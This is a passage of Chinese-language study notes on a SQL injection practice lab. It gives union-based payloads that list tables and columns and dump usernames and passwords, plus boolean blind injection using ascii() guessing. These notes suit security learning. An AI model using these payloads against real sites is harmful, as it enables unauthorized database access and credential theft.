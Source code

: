 ```sql
1' order by 3--+ #3列
```

```sql
-1' union select 1,group_concat(table_name),3 from information_schema.tables--+ #security
```

![image-20230901171537156]( images\image-20230901171537156.png)

```sql
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ #security
```

![image-20230901171710970]( images\image-20230901171710970.png)

```sql
-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='database()' and table_name='users' --+
```

```sql
-1' union select 1,2,group_concat(username,password) from users--+
```

![image-20230901172738993]( images\image-20230901172738993.png)

### （4）盲注

#### [1]布尔盲注：

​	（一般直接用sqlmap）

​	页面没有报错回回显，不知道数据库具体返回值的情况下，对数据库中的内容进行猜解，实行SQL注入。

```sql
?id=1' and 1=1 --+ 
```

![image-20230901212228536]( images\image-20230901212228536.png)

页面为真

```sql
?id=1'and 1=2--+
```

![image-20230901212256539]( images\image-20230901212256539.png)

页面为假

##### 	方法：

​	关键函数**ascii()**

```sql
1'and ascii((select database()))=101--+ 
```
